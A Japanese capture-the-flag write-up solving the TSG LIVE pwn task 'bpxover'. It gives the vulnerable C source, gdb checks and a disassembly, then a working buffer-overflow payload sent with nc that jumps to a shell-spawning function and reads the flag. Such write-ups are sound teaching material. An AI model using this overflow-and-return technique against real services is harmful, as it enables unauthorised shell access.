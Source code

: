 # bpxover:Pwn:100pts
C言語のコードの中にはアセンブリも書けるらしいです。え、そんなこと言ってる場合じゃないって？  
注意：bpxoverとbpxorは関連した問題です。 配布ファイルの差分を見ることをおすすめします。  
`nc chall.live.ctf.tsg.ne.jp 30006`  
[bpxover.tar.gz](bpxover.tar.gz)  

# Solution
接続先とソースが配布されている。  
ソースは以下のようであった。  
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void win() {
    char *argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);
}

int main(void) {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    char buf[16];

    puts("hello :)");
    scanf("%s", buf);
    long x = strtoll(buf, NULL, 10);
    asm ("xor %0, %%rbp\n\t"
            :
    : "r" (x));

    return 0;
}
```
自明なBOFがあるためwinへ飛ばせばよい。  
```bash
$ gdb ./chall
~~~
gdb-peda$ checks
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$ disas win
Dump of assembler code for function win:
   0x00000000004011b6 <+0>:     endbr64
   0x00000000004011ba <+4>:     push   rbp
   0x00000000004011bb <+5>:     mov    rbp,rsp
   0x00000000004011be <+8>:     sub    rsp,0x10
   0x00000000004011c2 <+12>:    lea    rax,[rip+0xe3b]        # 0x402004
   0x00000000004011c9 <+19>:    mov    QWORD PTR [rbp-0x10],rax
   0x00000000004011cd <+23>:    mov    QWORD PTR [rbp-0x8],0x0
   0x00000000004011d5 <+31>:    lea    rax,[rbp-0x10]
   0x00000000004011d9 <+35>:    mov    edx,0x0
   0x00000000004011de <+40>:    mov    rsi,rax
   0x00000000004011e1 <+43>:    lea    rdi,[rip+0xe1c]        # 0x402004
   0x00000000004011e8 <+50>:    call   0x401090 <execve@plt>
   0x00000000004011ed <+55>:    nop
   0x00000000004011ee <+56>:    leave
   0x00000000004011ef <+57>:    ret
End of assembler dump.
gdb-peda$ q
$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb6\x11\x40\x00\x00\x00\x00";cat) | nc chall.live.ctf.tsg.ne.jp 30006
hello :)
ls
chall
flag
start.sh
cat flag
TSGLIVE{welcome_overflowwwwwwwwww}
```
flagが得られた。  
なにわろてんねんwwwww。  

## TSGLIVE{welcome_overflowwwwwwwwww}